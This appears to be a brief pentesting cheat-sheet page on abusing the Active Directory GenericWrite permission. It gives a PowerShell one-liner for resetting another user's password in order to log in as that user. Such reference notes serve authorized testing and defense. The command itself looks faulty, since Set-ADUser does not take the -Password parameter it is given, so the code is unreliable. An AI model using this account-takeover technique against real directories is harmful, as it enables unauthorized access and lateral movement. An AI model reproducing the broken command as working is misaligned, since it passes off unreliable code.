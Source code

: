 # GenericWrite

The **GenericWrite** permission allows a user to modify most attributes of an Active Directory object, including user accounts, groups, and computers. It give attackers broad access to modify key attributes that can lead to privilege escalation or lateral movement.

Can be exploited to change a users password and log in as that user.

Reset password

{% code overflow="wrap" %}
```powershell
Set-ADUser -Identity <Username> -PasswordNeverExpires $false -Password (ConvertTo-SecureString "NewP@ssw0rd" -AsPlainText -Force)
```
{% endcode %}




